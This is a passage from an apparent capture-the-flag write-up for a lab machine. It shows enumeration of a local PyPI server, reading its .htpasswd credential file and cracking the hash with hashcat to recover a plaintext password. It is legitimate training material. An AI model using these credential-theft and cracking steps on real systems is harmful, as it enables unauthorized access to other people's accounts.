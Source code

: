 #### PyPI

First I need to understand the PyPI config. In the process list, the
pypi user is running `pypi-server`, a [minimal PyPI
server](https://pypiserver.readthedocs.io/en/latest/README.md):



    pypi       697  0.0  0.6  36956 25932 ?        Ss   Jul12   0:30 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages



The options give a lot of information about what's going on here:

-   `-i 127.0.0.1` - listening only on localhost
-   `-p 5000` - port 5000
-   `-a update,download,list` - list of actions that require
    authentication
-   `-P /var/www/pypi.sneakycorp.htb/.htpasswd` - the password file, in
    Apache htpasswd format
-   `--disable-fallback` - don't redirect to the real PyPI if a package
    isn't found
-   `-o` - overwrite existing files
-   `/var/www/pypi.sneakycorp.htb` - directory to put the packages in

#### Crack Password

I'll grab the authentication hash:



    www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd 
    pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/



I'll toss that into `hashcat` after looking up the hash mode in the
[list of example
hashes](https://hashcat.net/wiki/doku.php?id=example_hashes):



    root@kali# hashcat -m 1600 pypi.hash /usr/share/wordlists/rockyou.txt --user --force
    ...[snip]...
    $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui



#### NGINX

`netstat` shows that there is something listening on 127.0.0.1:5000, as
identified from the `pypi-server` command line:



    www-data@sneakymailer:/home/low$ netstat -tnlp4
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      744/nginx: worker p 
    tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      744/nginx: worker p 
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -  
